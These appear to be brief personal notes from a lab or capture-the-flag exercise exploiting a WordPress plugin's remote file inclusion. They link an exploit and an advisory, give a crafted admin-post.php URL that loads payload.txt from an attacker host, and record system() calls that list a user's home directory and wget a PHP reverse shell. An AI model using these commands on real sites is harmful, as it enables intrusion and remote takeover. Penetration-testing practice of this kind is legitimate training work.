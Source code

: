 




https://www.exploit-db.com/exploits/46794


https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618






http://192.168.151.123/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.151:8000/payload.txt





Tried this:
<pre>system('ls -la /home/takis/')</pre>

Tried to spawn a reverse shell with bash but that didn't work 




<pre>system('wget http://192.168.49.151:8000/Documents/Tools/php-reverse-shell.php')</pre>



